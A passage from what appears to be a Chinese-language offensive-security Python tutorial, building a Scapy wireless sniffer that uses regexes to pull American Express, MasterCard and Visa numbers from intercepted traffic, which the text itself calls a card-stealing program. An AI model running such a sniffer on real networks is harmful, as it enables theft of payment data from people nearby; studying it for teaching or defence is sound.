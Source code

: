 ```
import re
def findCreditCard(raw):
    americaRE= re.findall("3[47][0-9]{13}", raw)
    if americaRE:
        print("[+] Found American Express Card: "+americaRE[0])

def main():
    tests = []
    tests.append('I would like to buy 1337 copies of that dvd')
    tests.append('Bill my card: 378282246310005 for \$2600')
    for test in tests:
        findCreditCard(test)
if __name__ == "__main__":
main() 
```

运行我们的测试程序，我们看到它正确的找到了信用卡号码。

```
attacher$ python americanExpressTest.py
[+] Found American Express Card: 378282246310005 
```

现在，探究正则表达式必须找到 MasterCards 和 Visa 的信用卡号。MasterCards 的信用卡号以 51 或者 55 开头共 16 位数。Visa 的信用卡号以 4 开头，并且 13 位或者 16 位数字。让我们扩展我们的函数找到 MasterCard 和 Visa 信用卡号。注意，MasterCard 信用卡号正则表达式匹配 5 后面跟着 1 或者 5 接着 14 位共 16 位。Visa 正则表达式以 4 开头后面跟着 12 更多的数，我们将在接受 0 或者 3 位数来确保 13 位或者 16 位数。

```
def findCreditCard(pkt):
    raw = pkt.sprintf('%Raw.load%')
    americaRE = re.findall('3[47][0-9]{13}', raw)
    masterRE = re.findall('5[1-5][0-9]{14}', raw)
    visaRE = re.findall('4[0-9]{12}(?:[0-9]{3})?', raw)
    if americaRE:
        print('[+] Found American Express Card: ' + americaRE[0])
    if masterRE:
        print('[+] Found MasterCard Card: ' + masterRE[0])
    if visaRE:
        print('[+] Found Visa Card: ' + visaRE[0]) 
```

现在我们必须从嗅探到的无线数据包中匹配正则表达式。请记住我们使用混杂模式嗅探的目的，因为它允许我们观察不管是不是给我们的数据包。为了解析我们截获的无线数据包，我们使用`Scapy`库。注意，我们使用`sniff()`函数，`sniff()`函数将每一个经过的数据包作为参数传给`findCreditCard()`函数。不到 25 行的 Python 代码，我们创建了一个偷取信用卡信息的小程序。

```
# coding=UTF-8
import re
import optparse
from scapy.all import *

def findCreditCard(pkt):
    raw = pkt.sprintf('%Raw.load%')
    americaRE = re.findall('3[47][0-9]{13}', raw)
    masterRE = re.findall('5[1-5][0-9]{14}', raw)
    visaRE = re.findall('4[0-9]{12}(?:[0-9]{3})?', raw)
    if americaRE:
        print('[+] Found American Express Card: ' + americaRE[0])
    if masterRE:
        print('[+] Found MasterCard Card: ' + masterRE[0])
    if visaRE:
        print('[+] Found Visa Card: ' + visaRE[0])

def main():
    parser = optparse.OptionParser('usage % prog -i<interface>')
    parser.add_option('-i', dest='interface', type='string', help='specify interface to listen on')
    (options, args) = parser.parse_args()
    if options.interface == None:
```